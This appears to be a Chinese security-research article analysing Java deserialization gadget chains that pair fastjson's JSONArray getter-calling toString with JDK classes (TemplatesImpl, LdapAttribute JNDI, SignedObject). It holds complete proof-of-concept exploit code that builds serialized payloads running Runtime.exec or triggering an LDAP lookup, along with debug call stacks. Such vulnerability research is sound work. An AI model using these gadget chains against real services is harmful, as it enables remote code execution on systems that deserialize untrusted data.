









# fastjson 原生配合 jdk 原生的利用总结-先知社区

> **来源**: https://xz.aliyun.com/news/16854  
> **文章ID**: 16854

---

# fastjson 原生配合 jdk 原生的利用总结

## fastjson 的原生

参考<https://xz.aliyun.com/t/12755?time__1311=GqGxu7G%3DD%3Dit0%3DD%2FYriQNuqYTwjbNd8ba4D>

代码例子

```
public class Person {
    private String name;
    public String getName() {
        System.out.println("getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
}
```

```
public class BeanTest {

    public static void main(String[] args) throws Exception{
        Person person = new Person();
        String JSON_Serialize = JSON.toJSONString(person);
        System.out.println(JSON_Serialize);
    }
}
```

我们调试分析下，跟进 toJSONString 方法

```
public static String toJSONString(Object object) {
    return toJSONString(object, emptyFilters);
}
```

跟进重载

```
public static String toJSONString(Object object, SerializeConfig config, SerializeFilter[] filters, String dateFormat, int defaultFeatures, SerializerFeature... features) {
    SerializeWriter out = new SerializeWriter((Writer)null, defaultFeatures, features);

    String var15;
    try {
        JSONSerializer serializer = new JSONSerializer(out, config);
        if (dateFormat != null && dateFormat.length() != 0) {
            serializer.setDateFormat(dateFormat);
            serializer.config(SerializerFeature.WriteDateUseDateFormat, true);
        }

        if (filters != null) {
            SerializeFilter[] var8 = filters;
            int var9 = filters.length;

            for(int var10 = 0; var10 < var9; ++var10) {
                SerializeFilter filter = var8[var10];
                serializer.addFilter(filter);
            }
        }

        serializer.write(object);
        var15 = out.toString();
    } finally {
        out.close();
    }

    return var15;
}
```

跟进 write 方法

```
public final void write(Object object) {
    if (object == null) {
        this.out.writeNull();
    } else {
        Class<?> clazz = object.getClass();
        ObjectSerializer writer = this.getObjectWriter(clazz);

        try {
            writer.write(this, object, (Object)null, (Type)null, 0);
        } catch (IOException var5) {
            throw new JSONException(var5.getMessage(), var5);
        }
    }
}
```

这里关键就在于 writer.write 中

然后其中的 ASM 不好跟踪

```
getName:4, Person
write:-1, ASMSerializer_1_Person (com.alibaba.fastjson.serializer)
write:312, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:793, JSON (com.alibaba.fastjson)
toJSONString:731, JSON (com.alibaba.fastjson)
toJSONString:688, JSON (com.alibaba.fastjson)
main:7, BeanTest
```

看调用栈

可以看到调用 getter 方法  


下载我们的思路就是能够通过调用 getter 方法触发恶意利用的

但是如何触发 toJSONString 呢？

我们的代码例子是手动触发的，我们找找调用

发现是在JSON 的 toString 方法

```
public String toString() {
    return this.toJSONString();
}
```

然后我们一般都是利用的它的实现类 JsonArray

## TemplatesImpl 利用链

这也是 y4 师傅讲到的，其实这个也是最好想到了

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(""+cmd+"");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{


        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates,bd);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();


    }
}
```

我们调试一下看看

```
toString:1071, JSON (com.alibaba.fastjson)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:55, Test
```

首先就是最简单的触发 toString  
当然触发 toString 的有很多，而且还有一个 jdk 的原生出的 tostring 的  
可以去看<https://www.aiwin.fun/index.php/archives/4420/>

```
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
write:-1, ASMSerializer_1_TemplatesImpl (com.alibaba.fastjson.serializer)
write:135, ListSerializer (com.alibaba.fastjson.serializer)
write:312, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:1077, JSON (com.alibaba.fastjson)
```

然后跟随着我们上面分析的调用栈，到了 getOutputProperties 方法，成功触发我们的恶意利用



## LdapAttribute 利用链

这个也是我们的 jdk 原生的，看名字就知道利用点在于 JNDI



看到 getter 方法还是挺多的

这里找了一下  
利用的是 getAttributeDefinition 方法

我们调试分析一波

这里拿上面的代码改一下

```
Object ldapAttribute = Reflections.newInstance("com.sun.jndi.ldap.LdapAttribute",new Class[]{String.class},new Object[]{"c"});
Reflections.setFieldValue(ldapAttribute,"baseCtxURL","ldap://127.0.0.1:1389");
Reflections.setFieldValue(ldapAttribute,"rdn", new CompositeName("exp" + "//b"));
JSONArray jsonArray = new JSONArray();
jsonArray.add(ldapAttribute);

BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
setValue(bd,"val",jsonArray);

HashMap hashMap = new HashMap();
hashMap.put(ldapAttribute,bd);
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
objectOutputStream.writeObject(hashMap);
objectOutputStream.close();

ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
objectInputStream.readObject();
```

调用栈

```
getAttributeDefinition:207, LdapAttribute (com.sun.jndi.ldap)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
get:451, FieldInfo (com.alibaba.fastjson.util)
getPropertyValueDirect:110, FieldSerializer (com.alibaba.fastjson.serializer)
write:196, JavaBeanSerializer (com.alibaba.fastjson.serializer)
write:126, ListSerializer (com.alibaba.fastjson.serializer)
write:275, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:799, JSON (com.alibaba.fastjson)
toString:793, JSON (com.alibaba.fastjson)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:54, Test
```

来到了我们的 sink 方法

```
public DirContext getAttributeDefinition() throws NamingException {
    DirContext var1 = this.getBaseCtx().getSchema(this.rdn);
    return (DirContext)var1.lookup("AttributeDefinition/" + this.getID());
}
```

跟进 getSchema 看看是如何对 rdn 解析的，是如何找到我们的类名的

```
public DirContext getSchema(Name name) throws NamingException {
    return getURLOrDefaultInitDirCtx(name).getSchema(name);
}
```

重载

```
public DirContext getSchema(Name var1) throws NamingException {
    PartialCompositeDirContext var2 = this;
    Hashtable var3 = this.p_getEnvironment();
    Continuation var4 = new Continuation(var1, var3);
    Name var6 = var1;

    DirContext var5;
    try {
        for(var5 = var2.p_getSchema(var6, var4); var4.isContinue(); var5 = var2.p_getSchema(var6, var4)) {
            var6 = var4.getRemainingName();
            var2 = getPCDirContext(var4);
        }
    } catch (CannotProceedException var9) {
        DirContext var8 = DirectoryManager.getContinuationDirContext(var9);
        var5 = var8.getSchema(var9.getRemainingName());
    }

    return var5;
}
```

这里我们只需要一直关注我们传入的参数被传入了什么地方

跟进 p\_getSchema

```
protected DirContext p_getSchema(Name var1, Continuation var2) throws NamingException {
    DirContext var3 = null;
    HeadTail var4 = this.p_resolveIntermediate(var1, var2);
    switch (var4.getStatus()) {
        case 2:
            var3 = this.c_getSchema(var4.getHead(), var2);
            break;
        case 3:
            var3 = this.c_getSchema_nns(var4.getHead(), var2);
    }

    return var3;
}
```

可以看到值又被传入了 p\_resolveIntermediate



处理是在 p\_resolveIntermediate  
这个方法很长

```
protected HeadTail p_resolveIntermediate(Name var1, Continuation var2) throws NamingException {
    byte var3 = 1;
    var2.setSuccess();
    HeadTail var4 = this.p_parseComponent(var1, var2);
    Name var5 = var4.getTail();
    Name var6 = var4.getHead();
    if (var5 != null && !var5.isEmpty()) {
        Object var7;
        if (!var5.get(0).equals("")) {
            try {
                var7 = this.c_resolveIntermediate_nns(var6, var2);
                if (var7 != null) {
                    var2.setContinue(var7, var6, this, var5);
                } else if (var2.isContinue()) {
                    this.checkAndAdjustRemainingName(var2.getRemainingName());
                    var2.appendRemainingName(var5);
                }
            } catch (NamingException var11) {
                this.checkAndAdjustRemainingName(var11.getRemainingName());
                var11.appendRemainingName(var5);
                throw var11;
            }
        } else if (var5.size() == 1) {
            var3 = 3;
        } else if (!var6.isEmpty() && !this.isAllEmpty(var5)) {
            try {
                var7 = this.c_resolveIntermediate_nns(var6, var2);
                if (var7 != null) {
                    var2.setContinue(var7, var6, this, var5);
                } else if (var2.isContinue()) {
                    this.checkAndAdjustRemainingName(var2.getRemainingName());
                    var2.appendRemainingName(var5);
                }
            } catch (NamingException var9) {
                this.checkAndAdjustRemainingName(var9.getRemainingName());
                var9.appendRemainingName(var5);
                throw var9;
            }
        } else {
            Name var12 = var5.getSuffix(1);

            try {
                Object var8 = this.c_lookup_nns(var6, var2);
                if (var8 != null) {
                    var2.setContinue(var8, var6, this, var12);
                } else if (var2.isContinue()) {
                    var2.appendRemainingName(var12);
                }
            } catch (NamingException var10) {
                var10.appendRemainingName(var12);
                throw var10;
            }
        }
    } else {
        var3 = 2;
    }

    var4.setStatus(var3);
    return var4;
}
```

可以发现首先是把我们的输入分为了头和尾巴



然后传入到 c\_resolveIntermediate\_nns 方法



看到这里 jndi 的逻辑又明显了一些

```
protected Object c_resolveIntermediate_nns(Name var1, Continuation var2) throws NamingException {
    try {
        final Object var3 = this.c_lookup(var1, var2);
        if (var3 != null && this.getClass().isInstance(var3)) {
            var2.setContinueNNS(var3, var1, this);
            return null;
        } else if (var3 != null && !(var3 instanceof Context)) {
            RefAddr var4 = new RefAddr("nns") {
                private static final long serialVersionUID = -8831204798861786362L;

                public Object getContent() {
                    return var3;
                }
            };
            Reference var5 = new Reference("java.lang.Object", var4);
            CompositeName var6 = (CompositeName)var1.clone();
            var6.add("");
            var2.setContinue(var5, var6, this);
            return null;
        } else {
            return var3;
        }
    } catch (NamingException var7) {
        var7.appendRemainingComponent("");
        throw var7;
    }
}
```

c\_lookup 方法，这个在分析 LDAP 的 jndi 的时候就分析过了

触发点也就是在里面

## SignedObject 利用链

SignedObject 也是 jdk 的一个原生类  


我们看到它的方法



利用的是它的 getObject 方法

这个方法可以二次反序列化

```
public Object getObject()
    throws IOException, ClassNotFoundException
{
    // creating a stream pipe-line, from b to a
    ByteArrayInputStream b = new ByteArrayInputStream(this.content);
    ObjectInput a = new ObjectInputStream(b);
    Object obj = a.readObject();
    b.close();
    a.close();
    return obj;
}
```

只需要我们控制 content 的值  
POC

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import javax.naming.CompositeName;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import common.Reflections;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(""+cmd+"");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{


        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        HashMap<Object,Object> objectHashMap=new HashMap<>();
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject("test", kp.getPrivate(), Signature.getInstance("DSA"));
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(signedObject);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(signedObject,bd);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();
    }
}
```

这里我没有控制二次反序列化的内容，因为研究的重点是原生+原生

调试一下  


成功到这里

```
getObject:178, SignedObject (java.security)
write:-1, ASMSerializer_1_SignedObject (com.alibaba.fastjson.serializer)
write:126, ListSerializer (com.alibaba.fastjson.serializer)
write:275, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:799, JSON (com.alibaba.fastjson)
toString:793, JSON (com.alibaba.fastjson)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:61, Test
```
